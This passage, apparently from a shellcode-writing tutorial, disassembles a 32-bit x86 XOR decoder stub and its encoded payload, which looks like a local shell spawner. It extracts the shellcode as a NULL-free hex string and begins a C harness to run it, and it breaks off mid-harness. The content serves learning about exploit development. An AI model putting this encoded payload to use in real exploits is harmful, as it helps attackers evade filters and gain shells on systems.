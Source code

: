 ```
$ objdump -d xor-decoder -M intel 

xor-decoder:     file format elf32-i386


Disassembly of section .text:

08048060 <_start>:
 8048060:	eb 0d                	jmp    804806f <call_decoder>

08048062 <decoder>:
 8048062:	5e                   	pop    esi
 8048063:	31 c9                	xor    ecx,ecx
 8048065:	b1 19                	mov    cl,0x19

08048067 <decode>:
 8048067:	80 36 aa             	xor    BYTE PTR [esi],0xaa
 804806a:	46                   	inc    esi
 804806b:	e2 fa                	loop   8048067 <decode>
 804806d:	eb 05                	jmp    8048074 <Shellcode>

0804806f <call_decoder>:
 804806f:	e8 ee ff ff ff       	call   8048062 <decoder>

08048074 <Shellcode>:
 8048074:	9b                   	fwait
 8048075:	6a fa                	push   0xfffffffa
 8048077:	c2 85 85             	ret    0x8585
 804807a:	d9 c2                	fld    st(2)
 804807c:	c2 85 c8             	ret    0xc885
 804807f:	c3                   	ret    
 8048080:	c4 23                	les    esp,FWORD PTR [ebx]
 8048082:	49                   	dec    ecx
 8048083:	fa                   	cli    
 8048084:	23 48 f9             	and    ecx,DWORD PTR [eax-0x7]
 8048087:	23 4b 1a             	and    ecx,DWORD PTR [ebx+0x1a]
 804808a:	a1                   	.byte 0xa1
 804808b:	67                   	addr16
 804808c:	2a                   	.byte 0x2a
```

Ok, no NULLs, fantastic. Let's extract the shellcode

```
$ shellcode-dump.sh xor-decoder
"\xeb\x0d\x5e\x31\xc9\xb1\x19\x80\x36\xaa\x46\xe2\xfa\xeb\x05\xe8\xee\xff\xff\xff\x9b\x6a\xfa\xc2\x85\x85\xd9\xc2\xc2\x85\xc8\xc3\xc4\x23\x49\xfa\x23\x48\xf9\x23\x4b\x1a\xa1\x67\x2a"
```

And test in `shellcode.c`

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\xeb\x0d\x5e\x31\xc9\xb1\x19\x80\x36\xaa\x46\xe2\xfa\xeb\x05\xe8\xee\xff\xff\xff\x9b\x6a\xfa\xc2\x85\x85\xd9\xc2\xc2\x85\xc8\xc3\xc4\x23\x49\xfa\x23\x48\xf9\x23\x4b\x1a\xa1\x67\x2a";

main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;
```